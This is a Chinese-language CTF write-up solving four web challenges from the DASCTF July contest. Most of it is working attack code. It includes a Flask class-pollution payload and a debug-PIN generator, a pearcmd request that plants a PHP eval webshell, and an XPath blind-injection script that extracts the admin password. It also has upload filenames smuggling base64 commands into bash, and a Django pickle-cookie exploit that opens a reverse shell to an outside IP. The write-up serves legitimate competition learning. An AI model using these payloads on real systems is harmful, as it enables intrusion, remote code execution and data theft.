# DASCTF 七月赛 x 0x401 CTF

## EzFlask

源码

```python
import uuid

from flask import Flask, request, session
from secret import black_list
import json

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())

def check(data):
    for i in black_list:
        if i in data:
            return False
    return True

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class user():
    def __init__(self):
        self.username = ""
        self.password = ""
        pass
    def check(self, data):
        if self.username == data['username'] and self.password == data['password']:
            return True
        return False

Users = []

@app.route('/register',methods=['POST'])
def register():
    if request.data:
        try:
            if not check(request.data):
                return "Register Failed"
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Register Failed"
            User = user()
            merge(data, User)
            Users.append(User)
        except Exception:
            return "Register Failed"
        return "Register Success"
    else:
        return "Register Failed"

@app.route('/login',methods=['POST'])
def login():
    if request.data:
        try:
            data = json.loads(request.data)
            if "username" not in data or "password" not in data:
                return "Login Failed"
            for user in Users:
                if user.check(data):
                    session["username"] = data["username"]
                    return "Login Success"
        except Exception:
            return "Login Failed"
    return "Login Failed"

@app.route('/',methods=['GET'])
def index():
    return open(__file__, "r").read()

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5010)
```

看到 `merge()` 的时候就很容易想到是原型链污染了

https://tttang.com/archive/1876

污染 flask 的 `_static_folder` 为 `/` 就可以进行目录穿越了。

读取 secret.py 文件，发现其中的 blacklist 为

```python
black_list = [b'__init__', b'jinja', b'black_list']
```

构造部分 PoC

```json
{"__init\u005f_":{"__globals__":{"app":{"_static_folder":"/"}}},
"username":1,
"password":1
}
```

这样子之后就可以进行任意文件读取了

### 非预期

能到读到 `proc/1/cmdline`



再去读 flag



### 预期解

队里有师傅做了预期解

这里的思路是通过污染 `__file__` 为 flag，从而达到访问 `/` 的时候就访问了 `/flag`，但是由于非预期解这里可以看到 flag 名并不是这一个，但是题目开了 debug，我们可以通过计算 debug pin 码 RCE



读 `/proc/self/status` 的到 uid0，也就是用户为 root



生成 pin

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.10/site-packages/flask/app.py'
]

mac = str(int('3e:a3:33:76:6f:cd'.replace(":", ""),16))#/sys/class/net/eth0/address

private_bits = [
    mac, 
    '96cec10d3d9307792745ec3b85c89620docker-c647c1a8da0d432cdf87af77e028edfdd0709e41b4c6244064e0b23fd60ea0ea.scope' #1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup
]#96cec10d3d9307792745ec3b85c89620 867ab5d2-4e57-4335-811b-2943c662e936 docker-c647c1a8da0d432cdf87af77e028edfdd0709e41b4c6244064e0b23fd60ea0ea.scope

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
    
rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

## ez_cms

Y4tacker 师傅的文章

https://y4tacker.github.io/2022/06/16/year/2022/6/Y4%E6%95%99%E4%BD%A0%E5%AE%A1%E8%AE%A1%E7%B3%BB%E5%88%97%E4%B9%8B%E7%86%8A%E6%B5%B7CMS%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/#%E7%9C%9F%E6%AD%A3%E7%9A%84%E5%89%8D%E5%8F%B0RCE

按照思路打是这个 payload

```http
GET /?+config-create+/&r=../../../../../../../../../../../../../../../www/server/php/52/lib/php/pearcmd&/<?=@eval($_GET['shell']);?>+/tmp/hello.php HTTP/1.1
Host: 05c1eb98-7fcc-439c-be7c-3dade9e555df.node4.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36 Edg/115.0.1901.183
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,ja;q=0.5,zh-TW;q=0.4,no;q=0.3
Connection: close


```

再去做文件包含，但是实际做的时候发现这样子无法写🐎，怀疑是路径问题，Y4tacker 师傅说到这个路径其实是宝塔的，那 Linux 下一般 php 的路径都是 `/usr/bin/php`，pearcmd 的路径经过查询才知道是 `usr/share/php`麻了，当时一直在尝试其他思路，还以为 pearcmd 被删了。

写马



连马



## MyPicDisk

搞源码，先在登录框输入 `123'/123`，会能够在注释中看到源码



源码如下

```php
<?php
session_start();
error_reporting(0);
class FILE{
    public $filename;
    public $lasttime;
    public $size;
    public function __construct($filename){
        if (preg_match("/\//i", $filename)){
            throw new Error("hacker!");
        }
        $num = substr_count($filename, ".");
        if ($num != 1){
            throw new Error("hacker!");
        }
        if (!is_file($filename)){
            throw new Error("???");
        }
        $this->filename = $filename;
        $this->size = filesize($filename);
        $this->lasttime = filemtime($filename);
    }
    public function remove(){
        unlink($this->filename);
    }
    public function show()
    {
        echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
    }
    public function __destruct(){
        system("ls -all ".$this->filename);
    }
}
?>
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>MyPicDisk</title>
</head>
<body>
<?php
if (!isset($_SESSION['user'])){
  echo '
<form method="POST">
    username：<input type="text" name="username"></p>
    password：<input type="password" name="password"></p>
    <input type="submit" value="登录" name="submit"></p>
</form>
';
  $xml = simplexml_load_file('/tmp/secret.xml');
  if($_POST['submit']){
    $username=$_POST['username'];
    $password=md5($_POST['password']);
    $x_query="/accounts/user[username='{$username}' and password='{$password}']";
    $result = $xml->xpath($x_query);
    if(count($result)==0){
      echo '登录失败';
    }else{
      $_SESSION['user'] = $username;
        echo "<script>alert('登录成功!');location.href='/index.php';</script>";
    }
  }
}
else{
    if ($_SESSION['user'] !== 'admin') {
        echo "<script>alert('you are not admin!!!!!');</script>";
        unset($_SESSION['user']);
        echo "<script>location.href='/index.php';</script>";
    }
  echo "<!-- /y0u_cant_find_1t.zip -->";
  if (!$_GET['file']) {
    foreach (scandir(".") as $filename) {
      if (preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        echo "<a href='index.php/?file=" . $filename . "'>" . $filename . "</a><br>";
      }
    }
    echo '
  <form action="index.php" method="post" enctype="multipart/form-data">
  选择图片：<input type="file" name="file" id="">
  <input type="submit" value="上传"></form>
  ';
    if ($_FILES['file']) {
      $filename = $_FILES['file']['name'];
      if (!preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        die("hacker!");
      }
      if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)) {
          echo "<script>alert('图片上传成功!');location.href='/index.php';</script>";
      } else {
        die('failed');
      }
    }
  }
  else{
      $filename = $_GET['file'];
      if ($_GET['todo'] === "md5"){
          echo md5_file($filename);
      }
      else {
          $file = new FILE($filename);
          if ($_GET['todo'] !== "remove" && $_GET['todo'] !== "show") {
              echo "<br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=remove'>remove</a><br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=show'>show</a><br>";
          } else if ($_GET['todo'] === "remove") {
              $file->remove();
              echo "<script>alert('图片已删除!');location.href='/index.php';</script>";
          } else if ($_GET['todo'] === "show") {
              $file->show();
          }
      }
  }
}
?>
</body>
</html>
```

此处要先想办法获取 admin 的用户名和密码，但是这里的 xml 并不是我们可控的，所以用 xpath 盲注打，参考 

[NPUCTF2020 ezlogin](https://www.cnblogs.com/karsa/p/13439673.html)

```python
import requests
import time
url ='http://d5dc6fdb-a73b-409d-8b67-121d712142dd.node4.buuoj.cn:81/index.php'


strs ='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'


flag =''
for i in range(1,100):
    for j in strs:

        #猜测根节点名称
        # payload_1 = {"username":"<username>'or substring(name(/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password>".format(i,j),"password":123}
        #猜测子节点名称
        # payload_2 = "<username>'or substring(name(/root/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #猜测accounts的节点
        # payload_3 ="<username>'or substring(name(/root/accounts/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #猜测user节点
        # payload_4 ="<username>'or substring(name(/root/accounts/user/*[2]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #跑用户名和密码
        # payload_username ="<username>'or substring(/accounts/user[1]/username/text(), {}, 1)='{}'  or ''='".format(i,j)
        payload_username ="<username>'or substring(/accounts/user[1]/password/text(), {}, 1)='{}'  or ''='".format(i,j)
        data={
            "username":payload_username,
            "password":123,
            "submit":"1"
        }
        #
        # payload_password ="<username>'or substring(/root/accounts/user[2]/password/text(), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])


        print(payload_username)
        r = requests.post(url=url,data=data)
        time.sleep(0.1)
        #print(r.text)

        if "登录成功" in r.text:
            flag+=j
            print(flag)
            break

    if "登录失败" in r.text:
        break

print(flag)
```

爆出来的是 `admin/003d7628772d6b57fec5f30ccbc82be1`



md5 解密出来为 15035371139

登录成功之后能够看到一个文件上传的功能点，简单尝试一番后，看到 File 这个类里面的 `__destruct` 方法

```php
public function __destruct(){
        system("ls -all ".$this->filename);
    }
```

命令拼接，注入




PoC

```http
------WebKitFormBoundary79w3gAbWOTtwjVx2
Content-Disposition: form-data; name="file"; filename=";echo bHMgLwo|base64 -d|bash;ajpg.jpg"
Content-Type: image/png

123
------WebKitFormBoundary79w3gAbWOTtwjVx2--
```

进一步构造 PoC

```http
------WebKitFormBoundary6xM5F6Mo0Mgc9vhp
Content-Disposition: form-data; name="file"; filename=";echo Y2F0IC9hZGphc2tkaG5hc2tfZmxhZ19pc19oZXJlX2Rha2pkbm1zYWtqbmZrc2Q=|base64 -d|bash;user.jpg"
Content-Type: application/octet-stream

123
------WebKitFormBoundary6xM5F6Mo0Mgc9vhp--
```



## ez_py

下发的附件也比较简单，代码方面没有什么太多可以说的东西，没什么问题。去看一下 setting.py，其中有一段

```python
ROOT_URLCONF = 'openlug.urls'
# for database performance
SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
# use PickleSerializer
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'

# SECURITY WARNING: keep the secret key used in production non-secret!
SECRET_KEY = 'p(^*@36nw13xtb23vu%x)2wp-vk)ggje^sobx+*w2zd^ae8qnn'

# SECURITY WARNING: don't run with debug turned on in production!
DEBUG = False

ALLOWED_HOSTS = ["*"]
```

secret_key 直接给出来了，很明显是关于 session 的一系列操作，结合 Pickle，大概率就是 Pickle 在 session 处的伪造了。

去到对应的方法，这里默认传参是 JSONSerializer，尝试修改为 PickleSerializer



构造 EXP

```python
import urllib3

SECRET_KEY = 'p(^*@36nw13xtb23vu%x)2wp-vk)ggje^sobx+*w2zd^ae8qnn'
salt = "django.contrib.sessions.backends.signed_cookies"

import django.core.signing

import pickle

class PickleSerializer(object):
    """
    Simple wrapper around pickle to be used in signing.dumps and
    signing.loads.
    """
    def dumps(self, obj):
        return pickle.dumps(obj, pickle.HIGHEST_PROTOCOL)

    def loads(self, data):
        return pickle.loads(data)


import subprocess
import base64

class Command(object):
    def __reduce__(self):
        return (subprocess.Popen, (('bash -c "bash -i >& /dev/tcp/124.222.21.138/7777 <&1"',),-1,None,None,None,None,None,False, True))

out_cookie= django.core.signing.dumps(
    Command(), key=SECRET_KEY, salt=salt, serializer=PickleSerializer)
print(out_cookie)
```


